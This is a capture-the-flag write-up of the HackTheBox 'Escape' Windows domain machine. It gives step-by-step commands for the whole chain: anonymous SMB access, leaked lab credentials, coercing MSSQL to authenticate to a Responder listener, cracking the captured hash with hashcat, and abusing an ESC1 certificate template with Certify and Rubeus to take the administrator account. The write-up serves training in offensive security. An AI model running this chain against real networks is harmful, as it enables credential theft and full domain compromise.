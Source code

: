 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Escape/logo.png
date: 2023-12-21 09:45:47+07:00
modified: 2023-12-21 09:45:47+07:00
categories: HackTheBox
machine_author:
  link: https://app.hackthebox.com/users/184611
  name: Geiseric
tags: [Escape, Bruteforce, leak, mssql, xp_cmdshell, responder, xp_dirtree, NTLM, NTLMv2, WinRM, Evil-Winrm, BAK, ADCS, Certify, Rubeus, smb, hashcat, Windows, OSCP, Writeup]
title: Escape - HackTheBox
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Escape is a **medium** difficulty Windows Active Directory machine that starts with an SMB share that guest authenticated users can download a sensitive PDF file. Inside the PDF file temporary credentials are available for accessing an MSSQL service running on the machine. An attacker is able to force the MSSQL service to authenticate to his machine and capture the hash. It turns out that the service is running under a user account and the hash is crackable. Having a valid set of credentials an attacker is able to get command execution on the machine using WinRM. Enumerating the machine, a log file reveals the credentials for the user `ryan.cooper`. Further enumeration of the machine, reveals that a Certificate Authority is present and one certificate template is vulnerable to the ESC1 attack, meaning that users who are legible to use this template can request certificates for any other user on the domain including Domain Administrators. Thus, by exploiting the ESC1 vulnerability, an attacker is able to obtain a valid certificate for the Administrator account and then use it to get the hash of the administrator user.   



# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 10.10.11.202`

```bash
nmap -sC -sV -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389 10.10.11.202 -oA ./nmap/escape -Pn
```

|Ports|Service
|:-------------:|:-------------:|
|53| domain Simple DNS Plus
|88| kerberos-sec  Microsoft Windows Kerberos
|135| msrpc Microsoft Windows RPC
|139| netbios-ssn  Microsoft Windows netbios-ssn
|389| ldap  Microsoft Windows Active Directory LDAP
|445| Windows Server 2016 Standard 14393
|464| kpasswd5?
|593| ncacn_http  Microsoft Windows RPC over HTTP 1.0
|636| Microsoft Windows Active Directory LDAP
|1433| Microsoft SQL Server 2019
|5985| Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

![](https://photos.squarezero.dev/file/abir-images/Escape/1.png)

![](https://photos.squarezero.dev/file/abir-images/Escape/2.png)

Next, I checked the SMB server where I found some shares.

`smbclient -N -L //10.10.11.202`

![](https://photos.squarezero.dev/file/abir-images/Escape/3.png)

I did some other enumeration and found nothing interesting.

# Foothold

I logged Into [Public]() Share using anonymous login and I found a PDF.

`smbclient -N //10.10.11.202/Public`

![](https://photos.squarezero.dev/file/abir-images/Escape/4.png)

Inside the PDF I found credentials to log into SQL server.

Credential -> `PublicUser : GuestUserCantWrite1`

![](https://photos.squarezero.dev/file/abir-images/Escape/5.png)

Using this credential I logged in to MSSQL server.

`mssqlclient.py 'PublicUser:GuestUserCantWrite1@10.10.11.202'`

![](https://photos.squarezero.dev/file/abir-images/Escape/6.png)

I tried to see If I could execute a command using `xp_cmdshell`` but no luck. I tried to activate it but I don't have the permissions.

`xp_cmdshell 'whoami'`

`sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;`
![](https://photos.squarezero.dev/file/abir-images/Escape/7.png)

I looked for databases in the server but nothing interesting.

`SELECT name FROM master.dbo.sysdatabases`

![](https://photos.squarezero.dev/file/abir-images/Escape/8.png)

I started Responder in my local machine to get an NTLMv2 response by making MSSQL server read something from my localhost.

Start Responder -> `sudo responder -vI tun0`

Read from MSSQL -> `xp_dirtree '\\10.10.14.22\myshare';`

![](https://photos.squarezero.dev/file/abir-images/Escape/9.png)

![](https://photos.squarezero.dev/file/abir-images/Escape/10.png)

I used hashcat to crack the NTLMv2 Hash.

`hashcat -m 5600 sql_svc_hash.txt /usr/share/wordlists/rockyou.txt`

![](https://photos.squarezero.dev/file/abir-images/Escape/11.png)

Password -> `REGGIE1234ronnie`

I used [Evil-Winrm]() to login to the user but there was no flag.

`evil-winrm -u sql_svc -p 'REGGIE1234ronnie' -i 10.10.11.202`

![](https://photos.squarezero.dev/file/abir-images/Escape/12.png)

After some enumeration I found `ERRORLOG.BAK` inside `C:\SQLServer\Logs`.

![](https://photos.squarezero.dev/file/abir-images/Escape/13.png)

At the very end, we can see the credentials of Ryan.Cooper.

![](https://photos.squarezero.dev/file/abir-images/Escape/14.png)

Credential -> `Ryan.Cooper : NuclearMosquito3`

I logged in using Evil-Winrm and got the flag.

![](https://photos.squarezero.dev/file/abir-images/Escape/15.png)



# Privilege Escalation

I tried ASREProasting and Kerberoasting but no luck

`GetNPUsers.py -dc-ip 10.10.11.202 sequel.htb/sql_svc -request`

`GetUserSPNs.py -dc-ip 10.10.11.202 sequel.htb/sql_svc -request`

![](https://photos.squarezero.dev/file/abir-images/Escape/16.png)

I had to dig deep and Found TLS certificates on port 3269 which was by sequel-DC-CA.

`openssl s_client -showcerts -connect 10.10.11.202:3269  | openssl x509 -noout -text`

![](https://photos.squarezero.dev/file/abir-images/Escape/17.png)

I uploaded [Certify.exe](https://github.com/GhostPack/Certify) to the victim machine and found the vulnerable certificate.

`.\Certify.exe find /vulnerable`

![](https://photos.squarezero.dev/file/abir-images/Escape/18.png)

![](https://photos.squarezero.dev/file/abir-images/Escape/19.png)

We can see the Validation period is 10 years Also the owner is Administrator. There are bad permissions listed which we can abuse as well.

Let's run Certify with alt name administrator to get certification which we can later craft to abuse.

```Powershell
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```

We get an RSA key and Certificate.

```Powershell
----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAptfb4Z6gnih00wPublNRZnDeJew6dNUjnIK9G3ABXssfprGP
qy0qdSl4s71+m2YSaC/4uDhEIwcxLDhMqwlmMzmCv8QQmJyosvtAFUFxtAg+dpBU
--snip--
/PuJaiETVwdaoqNlswkMHKnR0s
LWZ3L+xYD9LCVDkKC7sgleaa7uScTURFCr5F2FctdBwXSdydtFwRCMGL4BHLpsDv
Svcn4kSdHqzoGeooLwlIi+j4J+2DOWdYwJBhDd4wpPauoLdLR1EU
-----END RSA PRIVATE KEY-----
----BEGIN CERTIFICATE-----
MIIGEjCCBPqgAwIBAgITHgAAAAuikoIHtx76ygAAAAAACzANBgkqhkiG9w0BAQsF
ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
MRUwEwYDVQQDEwxzZXF1ZWwtREMtQ0EwHhcNMjMxMjIyMDkxMTUwWhcNMjUxMjIy
MDkyMTUwWjBTMRMwEQYKCZImiZPy
--snip--
ei9J2F4a+S18ZzwBww23Zg13HJSu
4gr2IESXJuevi5d3VZACMXXcUs2rV1QNeRfqZNSQHepPEqlX2XEJMCTsyT4Pzqhr
XgWWAS1a1QQe1UUrvE8dDT7auRt+yg==
-----END CERTIFICATE-----
```

We can save this in one file cert.pem and convert it to cert.pfx


```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![](https://photos.squarezero.dev/file/abir-images/Escape/20.png)

Next, I upload [Rubeus](https://github.com/GhostPack/Rubeus) & [cert.pfx](). 

Now we directly include the ticket in the system or get credentials that we can use to log in via Evil-Winrm.

Option 1:
```
.\Rubeus.exe asktgt /domain:SEQUEL.HTB /user:Administrator /certificate:cert.pfx /dc:dc.SEQUEL.HTB /ptt
```

Option 2:
```
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials /show /nowrap
```

I used the 2nd option to get NTLM hash of the administrator.

![](https://photos.squarezero.dev/file/abir-images/Escape/21.png)

After logging in I got the root flag.

![](https://photos.squarezero.dev/file/abir-images/Escape/22.png)



